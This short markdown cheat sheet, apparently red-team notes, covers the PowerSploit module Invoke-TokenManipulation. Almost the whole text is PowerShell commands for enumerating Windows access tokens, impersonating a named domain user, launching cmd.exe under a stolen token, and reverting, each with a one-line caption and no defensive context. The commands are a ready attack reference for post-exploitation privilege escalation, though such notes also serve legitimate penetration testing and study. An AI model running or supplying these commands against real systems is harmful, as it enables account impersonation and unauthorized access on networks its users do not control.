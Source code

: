 # PowerSploit

## 01 - Invoke-TokenManipulation

TODO: Write more information related to this powersploit module

```
PS C:\> Invoke-TokenManipulation -Enumerate
```

Impersonate current token.

```
PS C:\> Invoke-TokenManipulation -ImpersonateUser -UserName "<domain>\<username>"
```

Enumerate current privileges.

```
PS C:\> Invoke-TokenManipulation -WhoAmI
```

To execute with a new process with arguments after obtaining the new token.

```
PS C:\> Invoke-TokenManipulation -CreateProcess "cmd.exe"
```

Reverting back to the current token.

```
PS C:\> Invoke-TokenManipulation -RevToSelf
```
